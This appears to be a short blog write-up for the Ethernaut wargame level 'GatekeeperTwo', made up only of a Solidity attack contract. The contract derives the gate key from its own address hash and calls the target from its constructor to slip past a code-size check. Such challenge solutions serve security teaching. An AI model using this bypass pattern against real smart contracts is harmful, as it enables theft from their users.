 +++
title = 'Ethernaut Level 14 - Gatekeepertwo'
date = 2024-04-15
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Break even more gates'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface GatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Attack{
    bool public  success = false;
    constructor(address _addr) {
        GatekeeperTwo target = GatekeeperTwo(_addr);
        bytes8 key = bytes8(abi.encodePacked(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max));
        success = target.enter(key);
        
    }
}
```